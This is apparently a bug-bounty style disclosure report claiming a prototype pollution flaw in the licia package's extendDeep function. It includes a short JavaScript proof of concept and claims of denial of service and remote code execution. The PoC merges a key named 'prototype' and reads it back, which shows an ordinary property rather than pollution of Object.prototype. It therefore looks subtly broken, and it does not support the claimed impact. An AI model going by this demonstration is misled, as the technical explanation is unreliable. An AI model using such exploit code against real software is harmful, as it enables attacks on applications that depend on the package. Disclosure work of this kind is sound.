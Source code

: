 # Description
licia package is vulnerable to prototype pollution issue 
file can be found in  https://github.com/liriliri/licia/blob/master/src/e/extendDeep.js
# Proof of Concept 
1. Creating poc file namely poc.js
```js
var utils = require('licia');
var src = {};
let object = utils.extendDeep({}, JSON.parse('{ "myProperty": "a", "prototype" : { "isAdmin" : true } }'));
console.log(object.prototype.isAdmin);
```
2. Execute command npm install licia
3. Execute command node poc.js
* https://drive.google.com/file/d/1Ef61xgYB6Tzq1We_OiitWUqne0H9skGe/view?usp=sharing
# Impact
Prototype pollution which could lead to DOS and RCE
# Checklist
- [x] _Created and populated the README.md and vulnerability.json files_
- [x] _Provided the repository URL and any applicable [permalinks]([https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files](https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files))_
- [x] _Defined all the applicable weaknesses ([CWEs]([https://cwe.mitre.org/](https://cwe.mitre.org/)))_
- [x] _Proposed the CVSS vector items i.e. User Interaction, Attack Complexity_
- [x] _Checked that the vulnerability affects the latest version of the package released_
- [x] _Checked that a fix does not currently exist that remediates this vulnerability_
- [x] _Complied with all applicable laws_
